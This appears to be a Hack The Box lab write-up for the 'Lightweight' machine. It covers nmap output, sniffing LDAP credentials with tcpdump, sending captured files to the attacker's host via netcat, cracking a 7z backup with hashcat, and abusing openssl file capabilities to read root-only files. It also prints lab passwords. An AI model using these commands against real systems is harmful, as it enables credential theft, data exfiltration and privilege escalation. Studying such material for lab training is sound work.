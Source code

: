 # Lightweight
[![Bounty](https://www.hackthebox.eu/storage/avatars/6069dc9efc05cdf7ef0011efd817da9c.png)](https://www.hackthebox.eu/home/machines/profile/166)

## Initial Foothold
### Nmap
We run nmap.
```sh
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
```
If we open a web browser and navigate to the "user" tab, we'll see the following message:
```
This server lets you get in with ssh. Your IP (10.10.14.3) is automatically added as userid and password within a minute of your first http page request
```
We connect via ssh.
```sh
$ ssh 10.10.14.3@10.10.10.119
pass: 10.10.14.3
```
After some basic enumeration, we run tcpdump and hope for some incoming traffic.
```sh
$ tcpdump -i any -s 65535 -w capture.pcap
```
Now the weird part. While we are capturing with tcpdump, we are making some traffic on the website by clicking on random tabs (i really don't know why). After some time, we get the ***.pcap*** file locally.
First we upload ***nc***.
```sh
$ cp /bin/nc /var/www/html
$ wget http://10.10.14.3/nc
$ chmod +x nc
```
On host:
```sh
$ nc -lvp 5656 > capture.pcap
```
On remote:
```sh
$ ./nc 10.10.14.3 5656 < capture.pcap
```
Finally we open it up with wireshark and put ***ldap*** in the bar on the top where it says "Apply a display filter", so we can search only the LDAP protocol.
![](./images/wireshark.png)
Now we got a password for user ***ldapuser2***.
```sh
$ su ldapuser2
pass: 8bc8251332abe1d7f105d3e53ad39ac2
```
And once we are logged in as ldapuser2, we take the flag.
```sh
$ cd ~/
$ cat user.txt
```

## Privesc
In the home directory we can see a file called ***backup.7z***. If we try to extract the data we realize that it is password protected. So we crack it but first we take it locally as well.
```sh
$ wget http://10.10.14.3/nc
$ chmod +x nc
$ nc -lvp 5656 > backup.7z
$ ./nc 10.10.14.3 5656 < backup.7z
```
Then to crack it, we do the following.
```sh 
$ git clone https://github.com/philsmd/7z2hashcat.git
$ cd 7z2hashcat-master
$ cpan Compress::Raw::Lzma
$ ./7z2hashcat.pl ../backup.7z
```
The "cpan" is Perl's package manager. So we need to install these packages first in order to run ***7z2hashcat.pl*** we just downloaded from github. When it is finished we put the hash into a file (e.g hash.txt) and we start hashcat.
```sh
hashcat --force -m 11600 hash.txt /usr/share/wordlists/rockyou.txt --show
```
When it's over we get the password:
```sh
$ 7za x backup.7z
pass:delete
```
From the extracted files we open ***status.php*** and we get the password for user ***ldapuser1***. We can now change to ldapuser1.
```sh
$ su ldapuser1
pass: f3ca9d298a553da117442deeb6fa932d
```
After spending some time enumerating, we realize that the user has some capabilities.
```sh
$ cd ~/
$ getcap -r / 2>/dev/null
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```
If we pay close attention on ***openssll*** and according to [this](https://linux.die.net/man/3/cap_from_text), openssl has "All" capabilities set up. So we can exploit this and do some things as root.
One way to read files with openssl is to encrypt and decrypt them as [follows](https://www.shellhacks.com/encrypt-decrypt-file-password-openssl/).
```sh
$ ./openssl enc -aes-256-cbc -salt -in /root/root.txt -out ~/file.txt.enc -k PASS
$ ./openssl enc -aes-256-cbc -d -in ~/file.txt.enc -out file.txt -k PASS
```
Now we open the ***file.txt*** to get the flag.
```sh
$ cat file.txt
```
We got ***ROOT!!!***   

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897) [![Bounty](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)

